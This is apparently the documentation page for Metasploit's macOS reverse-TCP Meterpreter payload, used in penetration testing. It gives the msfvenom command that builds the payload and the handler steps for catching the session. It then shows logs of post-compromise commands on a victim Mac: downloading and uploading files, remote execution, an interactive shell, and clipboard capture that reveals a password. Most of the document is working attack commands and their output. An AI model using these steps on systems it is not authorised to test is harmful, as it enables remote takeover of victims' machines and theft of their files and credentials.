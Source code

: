osx/x64/meterpreter_reverse_tcp is similar to the linux meterpreter, but built for OSX.
It allows you to remotely take over the compromised system, having control of the file system,
webcam, screenshot and microphone, and collect sensitive information such as credentials
using post modules, etc.

## Vulnerable Application

osx/x64/meterpreter_reverse_tcp 64-bit MacOSX platforms from 10.8 onwards.

## Deploying osx/x64/meterpreter_reverse_tcp

**As a standalone executable**

To use osx/x64/meterpreter_reverse_tcp as an executable, first you can generate it with msfvenom:

```
./msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=[IP] LPORT=4444 -f macho -o /tmp/payload.bin
```

Before sending the executable to the victim machine, you need to set up the handler on your end:

1. Start msfconsole
2. Do: ```use exploit/multi/handler```
3. Do: ```set PAYLOAD osx/x64/meterpreter_reverse_tcp```
4. Do: ```set LHOST [Your IP]```
5. Do: ```run```

And that should start the listener. When the victim runs the malicious exectauble, you should
receive a session:

```
msf exploit(handler) > run

[*] Started reverse TCP handler on 172.16.23.1:4444 
[*] Starting the payload handler...
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.182:45009) at 2016-07-06 22:40:35 -0500

meterpreter > 
```


## Important Basic Commands

Here is a list of some of the common commands you might need while using Meterpreter:

**pwd**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/User/Desktop
```

**cd**

The cd command allows you to change directories. Example:

```
meterpreter > cd /tmp
```

**cat**

The cat command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
hello world
```

**upload**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/data.bin /Users/User/Desktop
[*] uploading  : /tmp/data.bin -> /Users/User/Desktop
[*] uploaded   : /tmp/data.bin -> /Users/User/Desktop/data.bin
meterpreter > 
```

**download**

The ```download``` command allows you to download a file from the remote target to your machine. For example:

```
meterpreter > download /Users/User/Desktop/data.bin /tmp
[*] downloading: /Users/User/Desktop/data.bin -> /tmp/data.bin
[*] download   : /Users/User/Desktop/data.bin -> /tmp/data.bin
```

**ifconfig/ipconfig**

```ifconfig``` and ```ipconfig``` are actually the same thing. They allow you to see the network
interfaces on the remote machine.

**getuid**

The getuid command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: uid=502, gid=20, euid=502, egid=20
```

**execute**

The ```execute``` command allows you to execute a command or file on the remote machine.
For example:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 5292 created.
```

**ps**

The ```ps``` command lists the running processes on the remote machine.

**shell**

The shell command allows you to interact with the remote machine's terminal (or shell). For
example:

```
meterpreter > shell
Process 29335 created.
Channel 2 created.
cat /tmp/hello.txt
hello
exit
meterpreter >
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel or
[CTRL]+[Z] then y (or the exit command) to terminate the channel.

**sysinfo**

The sysinfo command shows you basic information about the remote machine. Such as:

* Computer name
* OS name
* Architecture
* Meterpreter type

For example:

```
meterpreter > sysinfo
Computer     : My-Computer.local
OS           : Mac OS X Sierra (MacOSX 10.12.6)
Architecture : x86
Meterpreter  : x64/osx
meterpreter > 
```

**Extensions**

OSX Meterpreter supports reading and writing to the clipboard with the extapi extension, 
you can load it with the ```load``` command:

```
meterpreter > load extapi
Loading extension extapi...Success.
meterpreter > clipboard_get_data
Text captured at
=================
pa$$w0rd
=================
```

**Other commands**

For a complete list of OSX Meterpreter commands, do the following at the prompt:

```
meterpreter > help
```


